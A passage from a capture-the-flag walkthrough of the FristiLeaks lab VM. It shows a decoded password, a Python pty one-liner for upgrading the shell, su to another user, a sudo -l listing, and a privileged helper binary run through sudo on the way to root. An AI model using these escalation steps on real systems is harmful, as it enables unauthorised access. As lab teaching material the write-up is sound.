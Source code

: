 I ran it, and it returned:

```
# ./decode.py 
LetThereBeFristi!
``` 

So what was this? Since the whoisyourgodnow.txt file was owned by user fristigod, my first assumption was that this was his password. Easiest way to test was to just try su to user fristigod. For that, I needed a TTY which I could get with Python:

```
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.1$ su - fristigod
su - fristigod
Password: LetThereBeFristi!

-bash-4.1$ whoami
whoami
fristigod
```

Great, one step closer to root! fristigod's home directory contained a file called doCom located in /var/fristigod/.secret\_admin\_stuff:

```
-bash-4.1$ ./doCom
./doCom
Nice try, but wrong user ;)
```

I checked to see if fristigod had sudo rights, and he did:

```
-bash-4.1$ sudo -l
sudo -l
[sudo] password for fristigod: LetThereBeFristi!

Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

So user fristi could run the doCom command:

```
-bash-4.1$ sudo -u fristi ./doCom 
sudo -u fristi ./doCom
Usage: ./program_name terminal_command ...-bash-4.1$
```
